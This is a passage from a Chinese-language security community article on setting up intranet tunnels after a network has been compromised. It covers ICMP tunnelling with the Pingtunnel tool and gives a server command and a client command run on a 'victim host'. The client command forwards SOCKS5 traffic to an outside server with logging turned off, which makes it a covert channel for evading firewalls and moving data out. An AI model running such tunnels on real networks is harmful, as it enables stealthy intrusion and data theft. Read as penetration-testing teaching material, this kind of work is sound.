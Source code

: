 

# 网络隧道：突破内网的通行证 - 先知社区

网络隧道：突破内网的通行证

- - -

## 一、前言

内网隧道（Intranet tunnel）指的是通过网络隧道的方式，将内网的服务映射到公网上，从而使得外部主机可以访问内网资源。在后渗透阶段，内网隧道的搭建可以帮助攻击者在内部网络中进行更加隐蔽和灵活的操作，从而更好地实现攻击目标。网络隧道还可以更好的帮助我们绕过内网防御、横向渗透、数据转移、隐藏攻击行为，本文简单介绍几种类型的隧道搭建。

## 二、ICMP 隧道

ICMP（Internet Control Message Protocol）Internet 控制报文协议，用于在 IP 主机、路由器之间传递控制消息。控制消息是指网络通不通、主机是否可达、路由是否可用等网络本身的消息。ICMP 通过 PING 命令访问远程计算机，建立 ICMP 隧道，将 TCP/UDP 数据封装到 ICMP 的 PING 数据包中，从而穿过防火墙，因为防火墙一般不会屏蔽 PING 数据包，实现不受限制的访问。

### 隧道搭建

ICMP 隧道搭建使用 Pingtunnel，项目地址：[https://github.com/esrrhs/pingtunnel](https://github.com/esrrhs/pingtunnel) ，Pingtunnel 把 tcp/udp/sock5 流量伪装成 icmp 流量进行转发的工具，跨平台。

1、服务端（vps）上开启 pingtunnel 服务，我们可以看到在没有客户端连接时，接收到的数据包为 0

```bash
sudo ./pingtunnel -type server -key [密钥，只限数字]
sudo ./pingtunnel -type server -key 000000
```

[![](assets/1708095858-dad40628f38913134a845864546e046f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202651-9df77236-e8e4-1.png)

2、客户端（受害主机）开启 pingtunenl 服务，连接服务端

```bash
pingtunnel.exe -type client -l :[转发本机 2222 端口作为 ICMP 隧道通讯端口] -s [服务端 IP] -[转发类型] 1 -noprint 1 -nolog 1
pingtunnel.exe -type client -l :2222 -s 1.x.x.x -sock5 1 -noprint 1 -nolog 1
```

[![](assets/1708095858-27327ee82bd22d5cfc9ebb1cf12733ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202644-99a4012c-e8e4-1.png)
